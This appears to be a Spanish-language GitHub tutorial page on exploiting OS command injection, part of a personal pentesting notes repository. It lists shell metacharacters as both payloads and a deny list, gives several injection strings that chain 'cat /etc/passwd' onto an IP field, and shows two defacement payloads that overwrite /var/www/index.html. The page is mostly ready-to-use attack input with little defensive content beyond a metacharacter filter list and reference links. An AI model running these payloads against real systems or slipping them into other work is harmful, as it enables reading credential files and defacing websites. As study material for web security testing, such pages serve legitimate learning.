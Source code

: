 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

### 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

- Algo un poco mas complejo como un `defacement` se podría ver algo así:

````sh
127.0.0.1 ; cp /var/www/index.html /var/www/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/index.html &
````

- O algo todavía más complejo, esto ya es un código HTML para un buen defacement:

````sh
127.0.0.1 ; cp /var/www/index.html /var/www/index.bak && echo '<!DOCTYPE html><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el titulo Fz3r0</h1><h2>Este es el titulo 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html>' > /var/www/index.html &

````



## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
